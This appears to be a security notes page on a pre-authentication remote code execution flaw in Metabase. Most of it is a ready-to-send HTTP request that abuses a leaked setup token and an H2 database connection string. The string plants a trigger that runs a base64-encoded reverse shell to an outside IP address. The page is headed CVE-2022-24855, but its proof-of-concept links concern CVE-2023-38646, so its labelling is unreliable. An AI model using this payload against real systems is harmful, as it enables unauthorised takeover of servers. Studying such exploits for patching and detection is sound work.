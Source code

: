 ```yaml
---
description: Metabase - Remote Code Execution
---
```


# CVE-2022-24855

Metabase - Remote Code Execution / Pre-Auth

Vulnerability: `/api/session/properties` leaks setup-id token that can be validated sending a post request to `/api/setup/validate`

```
POST /api/setup/validate HTTP/1.1
Host: localhost
Content-Type: application/json
Content-Length: 812

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/birds_of_the_world-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjE0LzQzMyAwPiYxCg==|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

<mark style="color:purple;">**POC:**</mark>

{% embed url="https://github.com/securezeron/CVE-2023-38646" %}

{% embed url="https://github.com/kh4sh3i/CVE-2023-38646" %}

<mark style="color:purple;">**Resources:**</mark>

{% embed url="https://www.metabase.com/blog/security-incident-summary" %}

{% embed url="https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/" %}

{% embed url="https://nvd.nist.gov/vuln/detail/cve-2022-24855" %}
